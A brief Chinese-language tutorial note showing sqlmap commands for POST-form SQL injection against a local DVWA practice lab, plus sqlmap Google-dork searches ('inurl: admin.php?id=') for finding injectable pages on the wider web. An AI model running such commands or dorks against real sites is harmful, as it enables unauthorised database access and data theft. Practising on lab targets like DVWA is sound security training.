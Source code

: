 # sqlmap post注入

1.

找到注入提交的表单 `http://dvwa.localhost/vulnerabilities/xss_s/`

```
python2.7 sqlmap.py -u "http://dvwa.localhost/vulnerabilities/xss_s/" --cookie="PHPSESSID=sm4ui6j4hros62n7vie2c845m3; security=low" --data="txtName=11&mtxMessage=111&btnSign=Sign+Guestbook" --dbs
```

刷新该页面，会有变化

跳过确认操作 `--batch --smart`

```
python2.7 sqlmap.py -u "http://dvwa.localhost/vulnerabilities/xss_s/" --cookie="PHPSESSID=sm4ui6j4hros62n7vie2c845m3; security=low" --data="txtName=11&mtxMessage=111&btnSign=Sign+Guestbook" --dbs --batch --smart
```



2.寻找注入点，不能连接谷歌只能手动寻找注入点

```
 python2.7 sqlmap.py -g "inurl: admin.php?id="
```



关键词

```
 python2.7 sqlmap.py -g "inurl:\". php.?id=\""
```

